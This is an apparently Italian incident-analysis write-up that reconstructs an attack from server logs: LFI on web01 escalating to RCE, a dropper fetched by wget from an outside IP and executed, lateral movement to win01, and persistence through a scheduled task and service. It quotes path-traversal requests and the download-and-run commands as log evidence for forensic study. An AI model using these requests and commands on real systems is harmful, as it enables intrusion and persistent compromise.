



# logs 
Web server logs


Application / Service logs


Security logs



# Accesso Iniziale: Da LFI a RCE su web01
```
Recon / Exploitation (web01)
 └── 09:12:14 web01 nginx --> LFI: /reports/view.php?doc=../../../../../../etc/passwd (trace_id=tr-A)
     └── php-fpm -> 200 /etc/passwd
 └── 09:12:16 web01 nginx -> LFI: /download.php?file=../../../var/log/auth.log (trace_id=tr-B)
     └── php-fpm -> 200 /var/log/auth.log
 └── 09:12:18 web01 nginx -> LFI: /app/help.php?topic=../../../../proc/self/environ (trace_id=tr-A)
     └── auditd --> SYSCALL: php-fpm spawns /usr/bin/bash -c "id; uname -a" → RCE conf
 └── 09:15:27 web01 nginx --> Attempted LFI on config.php (trace_id=tr-A) → PHP error / php-fpm crash & restart
```


Alle 09:12:14, ho notato una richiesta GET sospetta alla pagina view.php con un parametro doc che cercava di accedere a:

`../../../../../../etc/passwd`

All’inizio può sembrare solo un test, ma dal log di php-fpm ho visto che il file /etc/passwd è stato effettivamente letto. A quel punto ho capito che il server era vulnerabile a LFI (Local File Inclusion).
Pochi secondi dopo, alle 09:12:16, un’altra richiesta simile ha colpito download.php, cercando di leggere` ../../../var/log/auth.log`. Anche questa volta, il file è stato servito con successo. Questo mi ha fatto pensare che l’attaccante stesse mappando i file interni del sistema.
Il passaggio più critico è avvenuto alle 09:12:18, con una richiesta a:
`help.php?topic=../../../../proc/self/environ`
Questa tecnica è spesso usata per ottenere variabili d'ambiente e avviare codice malevolo. Infatti, il log di auditd conferma che php-fpm ha eseguito `/usr/bin/bash -c "id; uname -a"` 
 Qui ho avuto la conferma... l’attaccante ha ottenuto esecuzione di comandi sul server , quindi siamo passati da LFI a RCE (Remote Code Execution).
Infine, alle 09:15:27, è stato fatto un tentativo su export.php per leggere il file config.php. Ma qualcosa è andato storto.. il php-fpm ha generato un errore e si è bloccato, come confermato dai log di sistema. Il servizio si è poi riavviato automaticamente.
In breve, l’attaccante è partito leggendo file di sistema, ma è riuscito ad arrivare all’esecuzione remota di comandi. Un’escalation chiara e pericolosa.


# Fase di Attacco: Consegna del Payload su web01
```
 Consegna del Payload su web01
 └── 09:18:41 web01 nginx -> LFI: /download.php?file=../../../../etc/hosts (trace_id=tr-B)
     └── 09:18:42 auditd -> wget http://198.51.100.91/.s → saved as /tmp/.svc
     └── 09:19:03 auditd -> chmod +x /tmp/.svc
     └── 09:19:07 auditd  --> /tmp/.svc --ping (dropper)
```
Alle 09:18:41, ho visto un’altra richiesta LFI, questa volta rivolta a download.php con il parametro `file=../../../../etc/hosts` . A prima vista sembrava simile alle precedenti, ma subito dopo ho notato qualcosa di diverso.
Solo un secondo dopo, alle 09:18:42, auditd registra un comando wget che scarica un file da un server esterno (IP: 198.51.100.91) e lo salva come /tmp/.svc. Questo file mi ha subito fatto pensare a un dropper, cioè un piccolo programma usato per caricare malware.
Poco dopo, alle 09:19:03, il file viene reso eseguibile con `chmod +x /tmp/.svc` , e finalmente, alle 09:19:07, viene eseguito con il comando:
`/tmp/.svc –ping`
Questo mi conferma che il payload è stato non solo consegnato, ma anche attivato. A quel punto, l’attaccante aveva un suo file eseguibile in funzione sul server ...segno chiaro che l'infezione era in corso.

# Movimento Laterale: Tentativo da web01 verso win01

```
Movimento Laterale-- Tentativo web01 -> win01
 └── 09:21:05 web01 auditd -> python3 one-liner to ssh admin@win01 (trace_id=tr-A)
     └── 09:24:11 win01 Security -> 4625 admin from 10.10.5.21
     └── 09:24:59 win01 Security -> 4624 logon svc_webapp from 10.10.5.21

```
Alle 09:21:05, ho notato un comando eseguito tramite python3 da web01 che cercava di avviare una sessione SSH con l’utente admin@win01. Era una one-liner classica, del tipo usato per tentare un accesso veloce e silenzioso.
Il tentativo però fallisce, come indicato nel log di sicurezza di win01 alle 09:24:11, che riporta un errore di accesso per l’utente admin proveniente dall’indirizzo IP 10.10.5.21 (cioè il server web01). Fin qui, sembrava solo un test o un primo tentativo manuale.
Ma alle 09:24:59, la situazione cambia: c’è un accesso riuscito, stavolta con l’utente svc_webapp, dallo stesso IP. Questo suggerisce che l’attaccante aveva già credenziali valide per questo account o che le aveva ottenute poco prima. A quel punto, era riuscito a spostarsi dal server Linux (web01) al sistema Windows (win01) ...movimento laterale completato.

# Persistenza: Installazione di Meccanismi su win01

```
Persistenza su win01
 └── 09:25:07 TaskScheduler EventID=106 -> Task registered "\System\UpdaterCache"
     Action = powershell.exe -File C:\ProgramData\upc.ps1 (trace_id=tr-B)
 └── 09:25:11 Sysmon 11 -> FileCreate C:\ProgramData\upc.ps1 (powershell.exe)
 └── 09:25:42 SCM EventID=7045 --> Service inst "WinCacheSvc" → wincache.exe auto-start
 └── 09:26:03 TaskScheduler EventID=201 --> Task "\System\UpdaterCache" str
```
Subito dopo l’accesso riuscito, l’attaccante inizia a stabilire persistenza sul sistema win01. 
09:25:07, ho visto che viene registrato un nuovo task pianificato chiamato \System\UpdaterCache. L’azione associata al task esegue powershell.exe con uno script:
`C:\ProgramData\upc.ps1`
Quattro minuti dopo, alle 09:25:11, Sysmon conferma la creazione del file upc.ps1, eseguito tramite PowerShell. Questo mi fa pensare che il file sia stato generato dinamicamente proprio in quel momento, probabilmente da un comando remoto.
Poi, alle 09:25:42, un nuovo servizio di sistema viene installato: WinCacheSvc, con wincache.exe impostato per l’avvio automatico. Questo è un classico esempio di persistenza tramite servizio Windows .... una tecnica usata per sopravvivere ai riavvii del sistema.
Infine, alle 09:26:03, il task pianificato UpdaterCache viene effettivamente avviato. A questo punto è chiaro: l’attaccante non solo ha avuto accesso al sistema, ma ha anche piazzato meccanismi per restare attivo nel tempo.

